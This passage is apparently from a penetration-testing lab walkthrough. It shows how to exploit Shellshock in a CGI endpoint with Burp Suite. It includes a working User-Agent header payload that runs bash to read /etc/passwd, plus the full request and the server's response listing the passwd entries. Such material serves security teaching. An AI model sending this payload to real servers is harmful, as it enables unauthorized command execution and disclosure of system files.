 Now that we know the server is vulnerable we can see the web request and modify the request and insert the code we wish to execute. Turn on the Foxyproxy and use the Burp. Launch the burpsuite and launch temporary project and view the request in the proxy tab. Once we are able to see the request we can forward it and see the responses we get in return. Once we have confirmed the process now we will reload the page in firefox to send a new request so we can intercept. 
From the proxy tab right click and send the request to the repeater tab and in the repeater tab replace the User-Agent into with `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` and send the request. Once the request is sent we can see the output in the response view.

Request:

```
GET /gettime.cgi HTTP/1.1
Host: 192.130.178.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Response:

```
HTTP/1.1 200 OK
Date: Thu, 20 Jul 2023 08:01:54 GMT
Server: Apache/2.4.6 (Unix)
Connection: close
Content-Length: 957


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
```
